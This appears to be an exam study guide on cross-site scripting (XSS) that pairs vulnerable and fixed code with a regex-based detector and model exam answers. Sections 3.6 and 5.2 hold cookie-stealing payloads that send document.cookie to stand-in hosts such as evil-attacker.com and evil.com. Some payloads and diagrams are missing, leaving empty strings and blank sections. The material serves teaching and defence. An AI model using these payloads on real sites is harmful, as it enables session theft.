




# Cross-site Scripting (XSS) and vulnerabilities

<!-- SECTION_1_START -->
# Cross-Site Scripting (XSS) — Core Technical Definition & Intuitive Overview

## 1.1 Formal KTU 2024 Definition

> [!IMPORTANT]
> **Cross-Site Scripting (XSS)** is a **client-side code injection vulnerability** that occurs when an application includes untrusted data in a web page without proper validation or escaping, allowing an attacker to inject malicious scripts (typically JavaScript) into the context of a trusted website, which then executes inside the victim's browser under the site's origin.

The acronym **XSS** is used instead of **CSS** (Cascading Style Sheets) to avoid confusion. According to the **OWASP Top 10 (2021)**, injection-family flaws (which include XSS) remain among the most critical web application risks.

## 1.2 Conceptual Analogy — The Trojan Letter

Imagine a **post office** that delivers mail to **Mr. X** (the legitimate user). The postmaster (the **web server**) reads the *return address* on incoming envelopes and stamps the *recipient's name* on outgoing letters using that return address.

Now imagine **Mr. Evil** sends a letter to Mr. X, but the return address reads:

> *"Dear Mr. X, please execute the following instruction immediately: hand over your house keys to the bearer of this letter."*

The postmaster, trusting the return address, stamps Mr. X's name on the instruction and delivers it. Mr. X, believing the letter is from a trusted source, **executes the instruction**.

In this analogy:
- **The web application** = the postmaster
- **The browser** = Mr. X (the user)
- **Mr. Evil's letter** = malicious JavaScript payload
- **The trusted return address** = the vulnerable website's origin/cookies

## 1.3 The Three Pillars of XSS

XSS is generally classified into three primary categories that you must memorize for KTU valuation:

| Type | Persistence | Source of Payload | Storage Location |
|------|-------------|-------------------|------------------|
| **Stored (Persistent) XSS** | Permanent — saved in DB/file | Database, comment field, forum post | Server-side |
| **Reflected (Non-Persistent) XSS** | One-shot, immediate | URL query string, request parameters | Client-side request |
| **DOM-Based XSS** | Client-side only | Client-side JavaScript reads from URL/DOM | Browser DOM |

## 1.4 Core Mechanism — The Trust Boundary Violation

> [!NOTE]
> **The fundamental flaw in XSS is a trust boundary violation.** The browser's **Same-Origin Policy (SOP)** isolates scripts so that `evil.com` cannot read cookies of `bank.com`. However, XSS allows code from `evil.com` to execute **as if it originated from `bank.com`**, thereby **bypassing the SOP**.

Mathematically, the vulnerability can be expressed as:

$$ \text{Output}_{\text{page}} = f(\text{UserInput}) \quad \text{where} \quad f \text{ does NOT sanitize/escape} $$

When $f$ fails to encode special HTML/JS characters (like `<`, `>`, `"`, `'`, `&`, `/`), the attacker's input is **concatenated** into the executable page context.

## 1.5 The Dangerous Special Characters

These characters form the "alphabet" of every XSS payload. Memorize them:

| Character | HTML Entity | Purpose in Payload |
|-----------|-------------|--------------------|
| `<` | `&lt;` | Opens a new HTML tag |
| `>` | `&gt;` | Closes a tag |
| `"` | `&quot;` | Breaks out of an HTML attribute value |
| `'` | `&#x27;` | Breaks out of single-quoted attribute |
| `&` | `&amp;` | Begins an HTML entity reference |
| `/` | `&#x2F;` | Closes self-referencing tags |

## 1.6 Visualization Control

> [!VISUALIZATION CONTROL]
> **Concept:** XSS Trust Boundary Mapping (conceptual representation of the violation)
> **Coordinate Axes Setup:**
> * x-axis = Time (request → processing → response)
> * y-axis = Trust Level (Untrusted: $-1$ to Trusted: $+1$)
> **Key Coordinate Points to Plot:**
> * Point $A(0, -1)$ — *Attacker* submits `<script>steal()</script>` (Untrusted zone)
> * Point $B(1, 0)$ — *Server* receives and concatenates without sanitization (Boundary crossing)
> * Point $C(2, +1)$ — *Victim's Browser* executes payload inside Trusted origin (Compromised zone)
> **Visual Description:** A red dashed arrow must visibly **cross the horizontal trust boundary at $y = 0$**, demonstrating how untrusted input escalates into the trusted execution zone. The student should observe that sanitization must intercept the arrow between points $B$ and $C$.

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 Operational Anatomy of an XSS Attack

Every XSS attack — regardless of type — follows the same **five-stage lifecycle**:

1. **Reconnaissance Phase:** Attacker probes the target application for unsanitized input vectors (search boxes, comment forms, URL parameters, HTTP headers).
2. **Payload Crafting Phase:** Attacker constructs a malicious JavaScript snippet tailored to the injection point (HTML context, attribute context, JavaScript context, URL context).
3. **Injection Phase:** Payload is delivered to the server (Stored) or to the victim via a crafted link (Reflected/DOM).
4. **Execution Phase:** Victim's browser parses the malicious script and executes it in the security context of the trusted origin.
5. **Exploitation Phase:** The script performs malicious actions — session hijacking, keylogging, credential theft, defacement, or worm propagation.

## 2.2 Detailed Taxonomy of XSS Variants

### 2.2.1 Stored (Persistent) XSS — "The Sleeping Trap"

- The malicious payload is **permanently stored** on the target server (database, file system, message forum, comment field, user profile).
- The payload is served to **every victim** who visits the infected page.
- **Severity rating:** **Critical** — affects all users, no user interaction beyond visiting a page.
- **Classic example:** A blog comment containing `<script>` tags that executes when other users view the blog post.

### 2.2.2 Reflected (Non-Persistent) XSS — "The Mirror Attack"

- The payload is **embedded in the request** (URL parameters, search strings) and immediately "reflected" back in the server's response.
- Requires the victim to **click a crafted link** (delivered via phishing email, social media, forums).
- The server itself does not store the payload — it merely echoes it.
- **Severity rating:** **High** — depends on social engineering, but still highly dangerous.

### 2.2.3 DOM-Based XSS — "The Invisible Client-Side Threat"

- The vulnerability exists **entirely in the client-side JavaScript**; the server is never involved in the malicious flow.
- Unsafe JavaScript (e.g., `document.write()`, `innerHTML`, `eval()`) reads from attacker-controllable sources like `document.URL`, `location.hash`, `document.referrer`.
- **Severity rating:** **Medium–High** — harder to detect with traditional server-side WAFs.

## 2.3 KTU High-Yield Formula Sheet / Cheat Sheet

> [!IMPORTANT]
> The following table contains every KTU-board-relevant XSS concept, formula, and metric. **Memorize the columns marked with ★.**

| ★ Concept | Definition / Formula | Engineering Significance | Example |
|-----------|----------------------|--------------------------|---------|
| **Same-Origin Policy (SOP)** | Two pages share origin if protocol, host, and port match | Browser security foundation; XSS bypasses it | `https://bank.com/a` and `https://bank.com/b` share origin |
| **Content Security Policy (CSP)** | HTTP header restricting script sources | Defense-in-depth against XSS | `Content-Security-Policy: script-src 'self'` |
| **HttpOnly Cookie Flag** | Cookie inaccessible via `document.cookie` | Prevents session theft via XSS | `Set-Cookie: SID=abc; HttpOnly; Secure` |
| **Output Encoding** | Converting characters to safe entities | Primary XSS defense | `<` becomes `&lt;` |
| **Input Validation** | Rejecting inputs matching deny-list | Secondary defense (not primary) | Reject `<`, `>`, `"` in usernames |
| **Sanitization Function** | `sanitize(x) = encode(x)` | Applied before output | HTML Purifier, DOMPurify |
| **XSS Payload** | Malicious JS string with breaking chars | Attack vector | `` |
| **Cookie Theft Math** | Impact $\propto$ session lifespan | Risk metric | $t_{\text{theft}} < t_{\text{timeout}}$ |
| **Trusted Length (Taint Length)** | $\vert\text{unsanitized\_input}\vert$ | Risk indicator | Larger untrusted surface = higher risk |
| **CSP Violation Probability** | $P_{\text{violate}} = 1 - P_{\text{policy\_match}}$ | Defense effectiveness | Strict CSP $\rightarrow P_{\text{violate}} \to 0$ |
| **URL Parameter Injection** | $\text{URL} = \text{base} \oplus \text{attacker\_param}$ | Reflected XSS mechanism | `search?q=<script>...</script>` |
| **DOM Sink** | Function that executes untrusted data | DOM-XSS entry point | `innerHTML`, `eval()`, `document.write()` |
| **DOM Source** | Origin of untrusted client-side data | DOM-XSS trigger | `location.hash`, `document.referrer` |

## 2.4 Real-World Engineering Utility of XSS Understanding

In production systems, XSS knowledge is critical for:

- **Bug Bounty Hunting:** Top 3 most reported vulnerability class on HackerOne.
- **DevSecOps Pipelines:** SAST/DAST tools (like OWASP ZAP, Burp Suite) flag XSS automatically.
- **Compliance:** **PCI-DSS 6.2.4**, **OWASP ASVS 5.3**, and **NIST SP 800-53 SI-10** all mandate XSS protections.
- **Secure Code Review:** Recognizing `innerHTML = userInput` as a vulnerability is a core skill.
- **Incident Response:** Understanding XSS helps trace compromises like the **2018 British Airways breach** (Magecart-style script injection).

## 2.5 Why XSS Works — The Root Cause Equation

The vulnerability can be abstracted as:

$$ V_{\text{XSS}} = (\text{UntrustedInput} \cap \text{ExecutableContext}) \setminus \text{Sanitizer} $$

Where:
- $V_{\text{XSS}} = 1$ when the vulnerability is exploitable
- $V_{\text{XSS}} = 0$ when proper escaping is applied

For **KLU board exams**, the equivalent simple formulation is:

$$ \text{Security} = \text{Encode}(\text{Output}) \quad \wedge \quad \text{Validate}(\text{Input}) \quad \wedge \quad \text{CSP}(\text{Response}) $$

---

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Derivations, Code Implementation & Attack Walkthroughs

## 3.1 Walkthrough 1 — Reflected XSS in a Search Field (Vulnerable Code)

Consider a typical KTU-style vulnerable PHP code in a search feature:

```php
<!-- vulnerable_search.php -->
<!DOCTYPE html>
<html>
<head><title>Search Results</title></head>
<body>
    <h1>Search Results for: <?php echo $_GET['q']; ?></h1>
</body>
</html>
```

**Step-by-step exploitation:**

- **Step 1:** Attacker identifies that the `q` parameter is reflected in the page without escaping.
- **Step 2:** Attacker crafts the malicious URL:

  $$\text{URL} = \text{https://vuln-site.com/search.php?q=} \oplus \text{&lt;script&gt;alert('XSS')&lt;/script&gt;}$$

  Which renders as: `https://vuln-site.com/search.php?q=<script>alert('XSS')</script>`

- **Step 3:** Victim clicks the link (phishing email, forum post, social media).
- **Step 4:** Server echoes back: `<h1>Search Results for: <script>alert('XSS')</script></h1>`
- **Step 5:** Victim's browser **parses and executes** the injected `<script>` tag.
- **Step 6:** The JavaScript runs with full access to `vuln-site.com`'s cookies, DOM, and session.

## 3.2 Walkthrough 2 — Stored XSS via Comment Form

**Vulnerable Code (Node.js + Express):**

```javascript
// vulnerable_comments.js
const express = require('express');
const app = express();
const db = require('./database');

app.get('/post/:id', async (req, res) => {
    const comments = await db.getComments(req.params.id);
    let html = '<h2>Comments</h2><ul>';
    for (const c of comments) {
        // DANGER: Direct interpolation of user-supplied content
        html += `<li>${c.author}: ${c.body}</li>`;
    }
    html += '</ul>';
    res.send(html);
});

app.post('/post/:id/comment', express.urlencoded({ extended: true }), async (req, res) => {
    await db.addComment(req.params.id, req.body.author, req.body.body);
    res.redirect('/post/' + req.params.id);
});
```

**Attack Walkthrough:**

- **Step 1:** Attacker submits a comment with `body = ""`.
- **Step 2:** Server stores it in the database **without sanitization**.
- **Step 3:** Every subsequent visitor loads the post page; the comment is rendered into HTML.
- **Step 4:** The browser attempts to load the broken image, triggering the `onerror` handler.
- **Step 5:** The malicious JavaScript executes, exfiltrating cookies to the attacker's server:

  $$\text{Exfil} = \text{new Image}()\ \text{with src} = \text{'https://evil.com/steal?c='} \oplus \text{document.cookie}$$

## 3.3 Walkthrough 3 — DOM-Based XSS

**Vulnerable Client-Side Code:**

```html
<!-- dom_xss.html -->
<script>
    // VULNERABILITY: Reading directly from the URL hash and writing to the DOM
    const userGreeting = document.location.hash.substring(1);
    document.getElementById('greeting').innerHTML = 'Hello, ' + userGreeting;
</script>
<h1 id="greeting">Hello, Guest</h1>
```

**Exploitation:**

- **Step 1:** Attacker crafts the URL:

  `https://vuln-site.com/welcome.html#`

- **Step 2:** Victim visits the URL.
- **Step 3:** The JavaScript reads `document.location.hash`, which is `#`.
- **Step 4:** The substring is injected into `innerHTML` — a dangerous **DOM sink**.
- **Step 5:** The browser parses the malicious HTML and executes the `onerror` JavaScript.
- **Step 6:** **No server-side payload reflection occurs** — making this invisible to WAFs.

## 3.4 The Secure Counterparts — Defense Implementation

### 3.4.1 Secure PHP (Reflected XSS Fix)

```php
<!-- secure_search.php -->
<!DOCTYPE html>
<html>
<head><title>Search Results</title></head>
<body>
    <?php
        // 1. Validate: ensure input matches expected pattern
        $query = filter_input(INPUT_GET, 'q', FILTER_SANITIZE_SPECIAL_CHARS);
        // 2. Encode on output using htmlspecialchars
        $safeQuery = htmlspecialchars($query, ENT_QUOTES, 'UTF-8');
    ?>
    <h1>Search Results for: <?php echo $safeQuery; ?></h1>
</body>
</html>
```

### 3.4.2 Secure Node.js (Stored XSS Fix)

```javascript
// secure_comments.js
const express = require('express');
const escapeHtml = require('escape-html'); // npm install escape-html
const app = express();

app.get('/post/:id', async (req, res) => {
    const comments = await db.getComments(req.params.id);
    let html = '<h2>Comments</h2><ul>';
    for (const c of comments) {
        // DEFENSE: Encode every piece of untrusted data
        const safeAuthor = escapeHtml(c.author);
        const safeBody = escapeHtml(c.body);
        html += `<li>${safeAuthor}: ${safeBody}</li>`;
    }
    html += '</ul>';
    
    // DEFENSE: Set strict CSP header
    res.setHeader('Content-Security-Policy', "default-src 'self'; script-src 'self'");
    res.send(html);
});
```

### 3.4.3 Secure DOM-Based XSS Fix

```javascript
// secure_dom.js
// DEFENSE: Use textContent instead of innerHTML (no HTML parsing)
const userGreeting = document.location.hash.substring(1);
document.getElementById('greeting').textContent = 'Hello, ' + userGreeting;
```

## 3.5 Complete Python XSS Detection Script (Defensive Engineering)

```python
"""
xss_scanner.py - A simple XSS payload detector for educational/lab use.
Detects potential XSS patterns in HTTP request parameters.
"""
import re
from typing import List, Dict
from urllib.parse import urlparse, parse_qs

# KTU-style reference list of dangerous XSS signatures
XSS_SIGNATURES: List[str] = [
    r"<script.*?>",
    r"</script>",
    r"javascript:",
    r"onerror\s*=",
    r"onload\s*=",
    r"onclick\s*=",
    r"onmouseover\s*=",
    r"onfocus\s*=",
    r"onblur\s*=",
    r"<iframe",
    r"<object",
    r"<embed",
    r"<svg.*?onload",
    r"eval\s*\(",
    r"document\.cookie",
    r"document\.write",
    r"innerHTML\s*=",
    r"src\s*=\s*['\"]?javascript:",
]

def detect_xss_in_url(url: str) -> Dict[str, List[str]]:
    """
    Scans a URL for potential XSS payloads in query parameters.
    Returns a dict mapping each suspicious parameter to the matched signatures.
    """
    parsed = urlparse(url)
    params = parse_qs(parsed.query)
    
    findings: Dict[str, List[str]] = {}
    
    for param_name, param_values in params.items():
        for value in param_values:
            for signature in XSS_SIGNATURES:
                if re.search(signature, value, re.IGNORECASE):
                    if param_name not in findings:
                        findings[param_name] = []
                    findings[param_name].append(signature)
    
    return findings


def detect_xss_in_payload(payload: str) -> List[str]:
    """
    Scans a raw string payload for XSS patterns.
    """
    matches: List[str] = []
    for signature in XSS_SIGNATURES:
        if re.search(signature, payload, re.IGNORECASE):
            matches.append(signature)
    return matches


# KTU Board Demo: Demonstration of detection
if __name__ == "__main__":
    test_url = "https://example.com/search?q=<script>alert(1)</script>&page=1"
    print(f"Scanning URL: {test_url}")
    results = detect_xss_in_url(test_url)
    if results:
        print("POTENTIAL XSS DETECTED!")
        for param, sigs in results.items():
            print(f"  Parameter '{param}' matches: {sigs}")
    else:
        print("No XSS patterns detected.")
    
    # Test the payload detector
    test_payload = ""
    print(f"\nScanning payload: {test_payload}")
    payload_results = detect_xss_in_payload(test_payload)
    print(f"Matched signatures: {payload_results}")
```

## 3.6 The Cookie Stealing Payload — Full Engineering Trace

This is the **canonical KTU board payload** you must be able to write from memory:

```javascript
// Step 1: Steal the session cookie
var stolenCookie = document.cookie;

// Step 2: Construct the exfiltration URL
var attackerServer = "https://evil-attacker.com/log";

// Step 3: Initiate a cross-origin request to the attacker's server
// (Note: img tags bypass SOP for GET requests)
var img = new Image();
img.src = attackerServer + "?session=" + encodeURIComponent(stolenCookie);

// Step 4: Alternative exfiltration using fetch (modern browsers may block)
fetch(attackerServer + "?session=" + encodeURIComponent(stolenCookie), {
    mode: 'no-cors'
});
```

**Defense:** The `HttpOnly` flag on the cookie prevents `document.cookie` from returning the session value, neutralizing this attack.

## 3.7 Defense-in-Depth Formula — The "5-Layer Shield"

Every production-grade XSS defense stack implements:

$$\text{Defense}_{\text{total}} = D_1 \cup D_2 \cup D_3 \cup D_4 \cup D_5$$

| Layer | Defense | Implementation |
|-------|---------|----------------|
| $D_1$ | **Output Encoding** | `htmlspecialchars()`, `escapeHtml()`, `textContent` |
| $D_2$ | **Input Validation** | Whitelist regex, type-checking |
| $D_3$ | **CSP Headers** | `script-src 'self'` |
| $D_4$ | **HttpOnly + Secure Cookies** | Session flag protection |
| $D_5$ | **Trusted Types / Sanitization API** | DOMPurify framework |

---

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Schematics

## 4.1 Mermaid Diagram — XSS Attack Lifecycle (Reflected XSS)



## 4.2 Mermaid Diagram — XSS Type Comparison Flow



## 4.3 Mermaid Diagram — Defense-in-Depth Layered Architecture



## 4.4 Mermaid Diagram — DOM XSS Source-to-Sink Trace



---

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank & Topic Recap

## 5.1 Part A — Short Answer Questions (3 Marks Each)

### Question 1: Define Cross-Site Scripting (XSS) and list its three main types. [3 Marks]
**[KTU University Exam - July 2024, CO1, Remember/Understand]**

**Model Answer (Valuation Key):**

> **Cross-Site Scripting (XSS)** is a client-side code injection vulnerability in which an attacker injects malicious scripts (typically JavaScript) into web pages that are viewed by other users. The injected script executes in the victim's browser with the privileges of the trusted site, allowing the attacker to bypass the **Same-Origin Policy (SOP)**. [1.5 Marks]

The three main types of XSS are: [1.5 Marks]

1. **Stored (Persistent) XSS** — payload is permanently stored on the target server.
2. **Reflected (Non-Persistent) XSS** — payload is reflected immediately from the request.
3. **DOM-Based XSS** — payload is processed entirely on the client side via the Document Object Model.

---

### Question 2: Explain how the `HttpOnly` cookie flag helps mitigate XSS attacks. [3 Marks]
**[KTU University Exam - Dec 2023, CO2, Understand]**

**Model Answer (Valuation Key):**

> The `HttpOnly` flag is a server-set cookie attribute that **prevents client-side JavaScript from accessing the cookie's value** through properties like `document.cookie`. [1 Mark]

Mechanism: [1.5 Marks]
- When a cookie is marked `HttpOnly`, the browser's JavaScript engine **excludes it** from the `document.cookie` string.
- Even if an XSS vulnerability exists and an attacker injects `<script>document.cookie</script>`, the session cookie will not be exposed.
- This breaks the most common XSS exfiltration chain, where attackers send `document.cookie` to their own server.
- **Limitation:** HttpOnly does not prevent other XSS impacts (defacement, keylogging via injected event listeners, phishing overlays).

---

## 5.2 Part B — Full-Length Questions (14 Marks, Internal Choice)

### ★ Question A (Choice 1) — 14 Marks
**[KTU University Exam - July 2024, CO2/CO3, Understand/Apply/Analyze]**

#### Part (a) — 7 Marks: Differentiate between Stored, Reflected, and DOM-Based XSS with suitable examples for each.

**Model Answer — Step-by-Step Solution:**

**1. Tabular Comparison (Board Format):** [3 Marks for table]

| Feature | Stored XSS | Reflected XSS | DOM-Based XSS |
|---------|------------|---------------|---------------|
| **Storage** | Persisted in database | Not stored, comes from request | Not stored, in URL/DOM |
| **Server involvement** | Yes (DB read+write) | Yes (echoes input) | No (purely client-side) |
| **Trigger** | Victim views page | Victim clicks crafted link | Victim visits crafted URL |
| **Detection by WAF** | Easy | Easy | Difficult |
| **Severity** | Highest (mass impact) | High (targeted) | Medium-High |
| **Example** | Comment with `<script>` in blog | Search query reflected in result | `location.hash` written to `innerHTML` |

**2. Example — Stored XSS:** [1.5 Marks]
A forum accepts user comments. Attacker submits `Nice article! <script>document.location='https://evil.com/?c='+document.cookie</script>`. The server stores this in the database. When any user views the post, the script executes and exfiltrates their session cookie.

**3. Example — Reflected XSS:** [1.5 Marks]
A search page echoes `$_GET['q']` directly: `<h1>You searched for: ${q}</h1>`. The attacker emails a link: `https://site.com/search?q=<script>alert(document.cookie)</script>`. Clicking the link triggers the script.

**4. Example — DOM-Based XSS:** [1 Mark]
```javascript
var pos = document.URL.indexOf("name=") + 5;
document.write("Welcome " + document.URL.substring(pos, document.URL.length));
```
Visiting `https://site.com/welcome?name=<script>alert(1)</script>` triggers XSS without the server ever seeing the payload.

#### Part (b) — 7 Marks: Explain Content Security Policy (CSP) and demonstrate how a strict CSP header can mitigate XSS.

**Model Answer — Step-by-Step Solution:**

**Step 1 — Definition of CSP:** [1.5 Marks]
> **Content Security Policy (CSP)** is a browser security mechanism that allows web servers to declare which dynamic resources (scripts, styles, images, etc.) are permitted to load and execute on a given page. It is delivered as an HTTP response header and enforced by the browser.

**Step 2 — Header Structure:** [1.5 Marks]
$$\text{Content-Security-Policy: } \text{<directive>} \text{ <source-list>}$$

**Step 3 — Practical Example:** [2 Marks]

A strict CSP for a typical web app:
```http
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self' https://trusted.cdn.com; 
    style-src 'self' 'unsafe-inline'; 
    img-src 'self' data:; 
    object-src 'none'; 
    base-uri 'self'; 
    frame-ancestors 'none';
    form-action 'self';
```

**Step 4 — How it blocks XSS:** [1.5 Marks]
- Inline `<script>` tags are blocked by default (no `'unsafe-inline'` in `script-src`).
- The `eval()` function is blocked.
- Loading attacker-controlled JavaScript from external domains is blocked.
- Even if a stored XSS payload is injected, the browser will refuse to execute it.

**Step 5 — Why CSP is "Defense-in-Depth":** [0.5 Marks]
CSP is a *second line of defense*. It does not replace proper output encoding — instead, it ensures that even if a developer forgets to encode one input, the browser itself refuses to execute the malicious code.

---

### ★ Question B (Choice 2) — 14 Marks
**[KTU University Exam - Dec 2023, CO2/CO3, Apply/Analyze]**

#### Part (a) — 7 Marks: Identify the vulnerability in the following PHP code and rewrite it securely with proper defenses.

```php
<!-- ORIGINAL VULNERABLE CODE PROVIDED IN QUESTION -->
<html>
<body>
    <form method="GET" action="welcome.php">
        Name: <input type="text" name="username">
        <input type="submit">
    </form>
</body>
</html>

<?php
    $name = $_GET['username'];
    echo "Welcome " . $name;
?>
```

**Model Answer — Step-by-Step Solution:**

**Step 1 — Identify the Vulnerability:** [2 Marks]
> This code is vulnerable to **Reflected XSS**. The user-supplied `username` parameter is echoed back into the HTML response via the `echo` statement without any sanitization, encoding, or validation. An attacker can inject malicious JavaScript by submitting a crafted URL.

**Step 2 — Demonstrate the Exploit:** [1.5 Marks]
Attack URL: `https://vuln-site.com/welcome.php?username=<script>alert(document.cookie)</script>`

Server response (unsafe): `Welcome <script>alert(document.cookie)</script>`

Browser executes: an alert dialog containing the victim's session cookie.

**Step 3 — Secure Rewrite (Three Defenses Applied):** [3 Marks]

```php
<?php
// DEFENSE 1: Input validation using a whitelist regex
if (!isset($_GET['username']) || !preg_match('/^[A-Za-z0-9 ]{1,30}$/', $_GET['username'])) {
    http_response_code(400);
    die("Invalid input.");
}

// DEFENSE 2: Sanitization as a backup
$rawInput = filter_input(INPUT_GET, 'username', FILTER_SANITIZE_SPECIAL_CHARS);

// DEFENSE 3: Output encoding at the point of output (most important)
$safeName = htmlspecialchars($rawInput, ENT_QUOTES, 'UTF-8');

// DEFENSE 4: Set a strict CSP header
header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'");
?>
<html>
<body>
    <form method="GET" action="welcome.php">
        Name: <input type="text" name="username" maxlength="30">
        <input type="submit">
    </form>
    <p>Welcome <?php echo $safeName; ?></p>
</body>
</html>
```

**Step 4 — Justification of Defenses:** [0.5 Marks]
- `htmlspecialchars()` converts `<`, `>`, `"`, `'`, `&` into their HTML entity equivalents.
- Whitelist regex restricts input to alphanumeric characters.
- CSP header prevents inline script execution even if a flaw is later introduced.

#### Part (b) — 7 Marks: Explain the Same-Origin Policy (SOP) and discuss how XSS attacks violate it, with a cookie-stealing example.

**Model Answer — Step-by-Step Solution:**

**Step 1 — Definition of SOP:** [1.5 Marks]
> The **Same-Origin Policy (SOP)** is a critical browser security mechanism. Two URLs are considered to have the **same origin** if and only if they share the same **protocol**, **host**, and **port**. The SOP allows scripts on Page A to read/write resources of Page B **only if** A and B share the same origin.

**Step 2 — Mathematical Expression of Origin Matching:** [1 Mark]

$$\text{Origin} = (\text{Protocol},\ \text{Host},\ \text{Port})$$

$$\text{SOP}_{\text{allow}} = \begin{cases} 1 & \text{if } \text{Origin}_A = \text{Origin}_B \\ 0 & \text{otherwise} \end{cases}$$

**Step 3 — How XSS Violates SOP:** [1.5 Marks]
- An attacker on `evil.com` cannot normally read `bank.com` cookies due to SOP.
- However, if `bank.com` has an XSS vulnerability, the attacker injects a `<script>` that **executes in the `bank.com` origin**.
- Since the script now runs in the trusted context, it has **full DOM/cookie access** of `bank.com`.
- The browser sees the request as legitimate, so SOP does **not** block it.

**Step 4 — Cookie-Stealing Example (Code):** [2 Marks]
```javascript
// Injected via XSS into a vulnerable page
var c = document.cookie;
var i = new Image();
i.src = "https://evil-attacker.com/log?cookie=" + encodeURIComponent(c);
```

**Step 5 — Defense Against This Specific Attack:** [1 Mark]
The `HttpOnly` flag on the session cookie ensures `document.cookie` returns an empty string for the session cookie, breaking the exfiltration chain.

---

## 5.3 KTU Examiner's Valuation Warning / Pitfall Callout

> [!WARNING]
> **Common Mistakes That Cost Marks in KTU Board Exams:**
>
> 1. **Confusing XSS with CSRF.** CSRF (Cross-Site Request Forgery) tricks the *user's browser* into making an unwanted request. XSS *injects* code that *runs* in the user's browser. They are different. Examiners will deduct 1–2 marks if confused.
> 2. **Forgetting the third type.** Many students only list *Stored* and *Reflected*. Always remember **DOM-Based XSS** — it is a separate, client-side category.
> 3. **Writing "the script runs on the server."** This is the most common factual error. XSS runs **in the victim's browser**, not on the server.
> 4. **Skipping output encoding.** When asked for a fix, students often only mention "input validation." Board key answers require **`htmlspecialchars()` or `textContent`** as the primary fix.
> 5. **Not specifying the context.** Encoding is *context-dependent*: HTML body, attribute, JavaScript, URL, and CSS contexts each require different escape functions. Examiners reward this nuance.
> 6. **Forgetting to mention HttpOnly + CSP.** For "defense" questions, always list at least *two* defenses to score full marks.
> 7. **Spelling "JavaScript" as "Javascript" or "java script."** In board exams, the exact term `JavaScript` is expected.

---

## 5.4 Topic Recap & Important Things to Remember

> **Rapid Revision Checklist for KTU PECST744 — Module 2: XSS**

- **Definition:** XSS is a *client-side* code injection attack that injects malicious scripts into trusted web pages.
- **Three Types (must know all three):**
  - **Stored (Persistent):** Saved on server, affects all visitors.
  - **Reflected (Non-Persistent):** Comes from request, requires user click.
  - **DOM-Based:** Client-side only, no server reflection.
- **The Core Flaw:** Failure to encode user input when rendering it in the browser.
